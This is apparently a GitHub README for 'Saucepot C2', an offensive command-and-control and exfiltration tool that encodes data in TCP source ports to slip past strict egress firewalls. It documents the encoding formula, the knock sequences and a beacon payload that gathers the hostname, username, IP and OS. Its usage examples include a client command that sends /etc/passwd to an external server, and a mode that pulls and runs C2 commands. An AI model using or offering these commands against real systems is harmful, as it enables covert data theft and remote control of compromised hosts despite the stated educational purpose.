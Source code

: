 # Saucepot C2

Saucepot C2 is a client and server framework that leverages ephemeral TCP source ports for conducting data
exfiltration and command-and-control (C2).  The tool elevates the Port Knocking technique to a new level. Instead of using DstPorts as knock sequences, it employs SrcPorts or ephemeral ports. This approach allows data exfiltration even in highly strict firewall environments where only one outbound port is permitted, such as port 443. Since our payload resides in the SrcPort field, the TCP session state becomes irrelevant. We will exclusively use SYN packets for outbound data transfer to the server. Control and Data channels are segregated using two non-overlapping SrcPort ranges: 29000-33000 for Control and 49000-64360 for Data. The actual data can be reconstructed on the server side using the formula: **data = (SrcPort - 49000) % 256** after receiving the `session-start` sequence.

Currently, two port-knock sequences have been defined: `session-start` (sequences: 32400, 32500, 32600) and `session-end` (sequences: 29900, 29800, 29700). The compressed JSON data structure is sent after the `session-start` sequence, and the `session-end` sequence is sent after transmitting the data payload. Depending on different C2 commands, the structure of the data JSON varies. For example, for beacon check-in:

```
data = {
    'cmd': 'chkin',
    'payload': {
        'Hostname': hostname,
        'Username': os.getlogin(),
        'IP': ip,
        'OS': get_os(),
        'UUID': hostuuid
    }
}
```

Supported commands or features include:

- Check-in / heartbeat
- Directory listing
- Process listing
- File upload

This tool will not work in an environment where a client's source ports are mapped to different values after being NAT'd.

## Usage


### Server
```
usage: saucepot-server.py [-h] [-d <destination_host>] [-p <destination_port>] [-v] [-c]

options:
  -h, --help            show this help message and exit
  -d <destination_host>, --dst <destination_host>
                        Destination host used in packet filter (default: 127.0.0.1)
  -p <destination_port>, --port <destination_port>
                        Destination port used in packet filter (default: 80)
  -v, --verbose         Increase verbosity level (use multiple times for more verbosity)
  -c, --check           Check if the server sees the ephemeral port specified by the client
  ```

### Client
```
usage: saucepot-client.py [-h] [-d <destination_host>] [-p <destination_port>] [-c] [-u] [-f <file>]

options:
  -h, --help            show this help message and exit
  -d <destination_host>, --dst <destination_host>
                        Destination server to connect to (default: 127.0.0.1)
  -p <destination_port>, --port <destination_port>
                        Destination port to connect to (default: 80)
  -c, --check           Check if the server sees the ephemeral port specified by the client
  -u <file>, --upload <file>
                        Upload the file specified directly, without retrieving C2 commands
```

## Example Usage

Here are some examples of how to use Saucepot Server:

### Port checker
Check if specified source ports are kept after being NAT'd.

```shell
# Server
$ sudo python3 saucepot-server.py -d 172.31.48.68 -p 80 --check
Ephemeral Port Checker listening on port 80 ...

[2023-10-02 07:01:46] Challenge duel_1696402906.356157 received from 35.87.191.76:61896
[2023-10-02 07:01:46] Challenge duel_1696402906.367766 received from 35.87.191.76:54438
[2023-10-02 07:01:46] Challenge duel_1696402906.3793 received from 35.87.191.76:53003

# Client
$ python3 saucepot-client.py -d 18.246.19.238 -p 80 --check
Testing ephemeral port with 18.246.19.238:80 ...
Test 1 with ephemeral port 61896: PASS
Test 2 with ephemeral port 54438: PASS
Test 3 with ephemeral port 53003: PASS

Ephemeral port test succeeded. Enjoy Port Knocking 2.0 technique!
```


### File Exfiltration

Client uploads a file to the Server without receiving C2 commands from the Server.

```shell
# Server
$ sudo python3 saucepot-server.py -d 172.31.48.68 -p 80 

# Client
$ python3 saucepot-client.py -d 18.246.19.238 -p 80 --upload /etc/passwd
```

### Command and Control (C2)

Client checks in and starts receiving C2 commands to execute.

```shell
# Server
$ sudo python3 saucepot-server.py -d 172.31.48.68 -p 80 

# Client
$ python3 saucepot-client.py -d 18.246.19.238 -p 80
```

## Future Work

- More flexibility in `ls`, `upload` commands


## License

This project is licensed under the BSD-3-Clause License. See the [LICENSE](LICENSE) file for details.

## Disclaimer

Warning: This tool is intended solely for educational use. Using this tool to test hosts without explicit permission is illegal. Misuse for malicious purposes may lead to legal consequences. The author assumes no responsibility for misuse. Use at your own risk.